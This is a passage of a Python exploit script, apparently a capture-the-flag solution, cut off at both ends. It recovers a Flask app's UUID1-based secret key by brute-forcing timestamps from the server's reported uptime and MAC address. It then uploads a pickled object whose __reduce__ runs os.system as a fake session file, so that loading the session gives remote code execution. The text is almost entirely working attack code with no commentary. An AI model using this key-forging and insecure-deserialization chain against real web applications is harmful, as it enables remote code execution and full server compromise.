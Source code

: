 ```python
    },stream=True)
    for chunk in r.iter_content(chunk_size=1):
        if chunk:
            partial_content += chunk
except:
    pass

mac = partial_content.decode().strip()

r = s.get(URL + "status")
print(r.text)
server_time = datetime.strptime(r.json()['server_time'], "%Y-%m-%d %H:%M:%S.%f").replace(tzinfo=timezone.utc)
uptime = datetime.strptime(r.json()['uptime'], "%H:%M:%S.%f").replace(tzinfo=timezone.utc)
uptime = timedelta(hours=uptime.hour, minutes=uptime.minute, seconds=uptime.second, microseconds=uptime.microsecond)

random.seed(int((server_time - uptime).timestamp()))
clock_seq = random.getrandbits(14)
clock_seq_low = clock_seq & 0xff
clock_seq_hi_variant = (clock_seq >> 8) & 0x3f

SECRET_KEY = None
value = token.split('.')[0]
sig = token.split('.')[1]

for ns_diff in range(10_000_000):
    timestamp = int((server_time - uptime).timestamp() * 10_000_000) + 0x01b21dd213814000 + ns_diff
    time_low = timestamp & 0xffffffff
    time_mid = (timestamp >> 32) & 0xffff
    time_hi_version = (timestamp >> 48) & 0x0fff
    node = int(mac.replace(":",""),16)
    SECRET_KEY = str(uuid.UUID(fields=(time_low, time_mid, time_hi_version, clock_seq_hi_variant, clock_seq_low, node), version=1))

    signer = Signer(SECRET_KEY, 'flask-session',key_derivation="hmac")
    if signer.verify_signature(value, sig):
        print(SECRET_KEY)
        break

user = {
    "username": "/app/flask_session",
    "password": "foobar"
}
r = s.post(URL + "register", data=user)
r = s.post(URL + "login", data=user)

class RCE:
    def __reduce__(self):
        cmd = ('/readflag > /app/app/static/flag.txt')
        return os.system, (cmd,)
pickle_time = struct.pack("I", 0000)
pickled_payload = pickle_time + pickle.dumps(RCE())

r = s.post(URL + "profile", files={
    "about_me": "aaa",
    "profile_photo": ("session:/.png", pickled_payload)
})

s = requests.session()
signer = Signer(SECRET_KEY, 'flask-session',key_derivation="hmac")

```